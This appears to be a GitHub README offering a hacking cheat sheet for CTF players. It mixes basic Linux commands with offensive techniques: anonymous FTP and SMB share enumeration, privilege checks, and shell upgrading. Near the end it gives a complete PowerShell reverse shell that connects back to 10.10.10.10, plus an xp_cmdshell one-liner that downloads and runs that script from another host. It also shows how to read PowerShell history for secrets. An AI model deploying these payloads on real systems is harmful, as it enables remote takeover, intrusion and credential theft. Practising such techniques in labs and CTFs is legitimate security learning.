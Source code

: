 # hacking-cheatsheet
📑 _A hacking cheat sheet to help you cover all the basic needs_

_ps: i'll be updating this cheat sheet every week_


## Simple file transfering using SFTP
```bash 
sftp user@remoteip
sftp > put file
```

that's all we need to transfer files from local machine to remote servers as easy as possible

## Extracting tar files
```bash
tar -xvf archive.tar
```
used to exctrat files commonly present in CTFs programs

## Verifying SHA256 checksum in linux
```bash
sha256sum <filename>
```
`ps: we can compare the checksum with the sums file (in case you download it) using -c flag`

### Explaining /dev/null command in CTFs and privilege escalation techniques
```bash
<code here> 2>/dev/null
# /dev/null stands for null device on linux system, it operates just like a black hole, 
# throwing all outputs over there
```
`>` operator stands for redirection
`2` stands for error files

that's because all linux commands generates three main files associated with it

0 = standard input

1 = standard output

2 = standard error

So that's why 2>/dev/null is used to drop errors inside the Linux system's black hole.

## Simple kill process 
```bash
sudo kill <pid> 
```

## Using a simple SOCKS Proxy
```bash
ssh <remoteip> -l <username> -D 127.0.0.1:1080
# -D enables socks proxy binding our machine's traffic with the remote one
```
We can use it along Burp Suite to forward all the VPS's traffic through our local machine
using the burp's proxy on the local browser at the same time

`ps: here you will need to configure burp as well`

## Anonymous login
```bash
ftp <target ip address>
username: anonymous
password: [enter key]
```

## smbclient
```bash
# connects to the target listing all the shared documents
smbclient -N -L \\\\target ip\\ # -N supress the password prompt
smbclient -N \\\\target ip\\openshares

get <file> # downloads the file
more <file> # outputs the content file without the needing to download 
# in our local machine
```

## User enum and permissions
```bash
sudo -l # checks which commands we can execute on the system
id # checks users permissions

find / -group <groupname> 2>/dev//null # to find a specific group name
```

## Upgrading our shell
```bash 
python -c 'import pty; pty.spawn("/bin/bash")'
# here pty module let's us spawn a pseudo terminal
```

## Reverse shell ps1
```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

// execute the xp_cmd command bellow on the compromised target system 
// on a xp_cmdshell environment 

xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.139/powershell_reverse_shell.ps1\");"
```

## Discovering Powershell history
```bash
type C:\Users\<groupname>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
